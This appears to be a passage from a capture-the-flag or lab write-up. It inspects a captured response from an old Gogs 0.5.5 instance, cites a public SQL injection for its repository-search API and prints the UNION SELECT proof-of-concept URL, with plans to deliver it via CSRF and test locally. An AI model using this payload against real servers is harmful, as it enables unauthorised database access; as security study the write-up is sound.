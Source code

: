 ```
"><\/i><\/a>\n\t\t            <a target=\"_blank\" href=\"https:\/\/plus.google.com\/communities\/115599856376145964459\"><i class=\"fa fa-google-plus\"><\/i><\/a>\n\t\t            <a target=\"_blank\" href=\"http:\/\/weibo.com\/gogschina\"><i class=\"fa fa-weibo\"><\/i><\/a>\n\t\t            <div id=\"footer-lang\" class=\"inline drop drop-top\">Language\n\t\t                <div class=\"drop-down\">\n\t\t                    <ul class=\"menu menu-vertical switching-list\">\n\t\t                    \t\n\t\t                        <li><a href=\"#\">English<\/a><\/li>\n\t\t                        \n\t\t                        <li><a href=\"\/?lang=zh-CN\">\u7b80\u4f53\u4e2d\u6587<\/a><\/li>\n\t\t                        \n\t\t                        <li><a href=\"\/?lang=zh-HK\">\u7e41\u9ad4\u4e2d\u6587<\/a><\/li>\n\t\t                        \n\t\t                        <li><a href=\"\/?lang=de-DE\">Deutsch<\/a><\/li>\n\t\t                        \n\t\t                        <li><a href=\"\/?lang=fr-CA\">Fran\u00e7ais<\/a><\/li>\n\t\t                        \n\t\t                        <li><a href=\"\/?lang=nl-NL\">Nederlands<\/a><\/li>\n\t\t                        \n\t\t                    <\/ul>\n\t\t                <\/div>\n\t\t            <\/div>\n\t\t            <a target=\"_blank\" href=\"http:\/\/gogs.io\">Website<\/a>\n\t\t            <span class=\"version\">Go1.3.2<\/span>\n\t\t        <\/div>\n\t\t    <\/div>\n\t\t<\/footer>\n\t<\/body>\n<\/html>","message":"HTTP\/1.0 302 Found","headers":{"Host":"10.10.14.47:9002","Date":"Thu, 19 Jan 2023 13:32:36 GMT","Connection":"close","X-Powered-By":"PHP\/8.1.2-1ubuntu2.9","Location":"http:\/\/127.0.0.1:3000","Content-type":"text\/html; charset=UTF-8","Content-Type":"text\/html; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0"}}
```
## Gogs vulnerability
Tidying up the file with jq
```bash
cat page.json | jq .body -r > file.html
```
Viewing the page in a browser shows that it is a Gogs instance version 0.5.5.1010 Beta.

Checking exploitdb there is a sql injection.
the POC
```sql
http://www.example.com/api/v1/repos/search?q=') UNION SELECT * FROM 
(SELECT null) AS a1  JOIN (SELECT 1) as u JOIN (SELECT 
user()) AS b1 JOIN (SELECT user()) AS b2 JOIN (SELECT null)
 as a3  JOIN (SELECT null) as a4  JOIN (SELECT null) 
as a5  JOIN (SELECT null) as a6  JOIN (SELECT null) as
 a7  JOIN (SELECT null) as a8  JOIN (SELECT null) as 
a9 JOIN (SELECT null) as a10 JOIN (SELECT null) as a11 
JOIN (SELECT null) as a12 JOIN (SELECT null) as a13  JOIN
 (SELECT null) as a14  JOIN (SELECT null) as a15  JOIN
 (SELECT null) as a16  JOIN (SELECT null) as a17  JOIN
 (SELECT null) as a18  JOIN (SELECT null) as a19  JOIN
 (SELECT null) as a20  JOIN (SELECT null) as a21  JOIN
 (SELECT null) as a22 where ('%'='
```
### Local instance
As we have to send this via a CSRF it would be easier to spin it up locally for testing and debugging. Searching Github you can find a v0.5.5 instance and code.

Starting the server
```bash
gogs/gogs web
```
Now it is set up locally on port 3000.
